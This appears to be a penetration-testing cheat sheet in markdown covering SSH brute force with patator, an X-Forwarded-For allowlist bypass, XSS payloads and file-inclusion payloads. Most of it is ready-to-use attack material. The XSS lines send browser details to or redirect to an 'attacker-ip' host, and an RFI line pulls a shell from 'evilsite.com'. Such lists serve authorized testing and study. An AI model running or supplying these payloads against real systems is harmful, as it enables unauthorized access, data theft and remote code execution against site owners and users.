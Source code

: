 ## bruteforce ssh
- `patator ssh_login host=target-ip port=22 user=username password=FILE0 0=/opt/SecLists/Passwords/probable-v2-top1575.txt`
- Optional: `-x ignore:fgrep='failed.'`

---

# burp
- service: http
- tactics: enumeration

## bypass ip blacklist / whitelist
- `X-Forwarded-For: $allowed-ip`

---

# xss payloads
- service: http
- tactics: inital_access

## xss enumeration payloads
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appName;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.appVersion;</script>`
- `'">><script>new Image().src="attacker-ip:81/bogus.php?output="+navigator.platform;</script>`

## xss redirect to own webserver
- `'">><script>document.location="http://attacker-ip:81";</script>`
- `'">><script>window.location="http://attacker-ip:81";</script>`

---

# local file inclusion / remote file inclusion
- service: http
- service: php
- tactics: inital_access

## including remote code
- `?file=[http|https|ftp]://evilsite.com/shell.txt`

## using php stream php://input 
- `?file=php://input`  

## using zip wrapper zip://input 
- `?file=zip://path/file.zip%23rce.php`
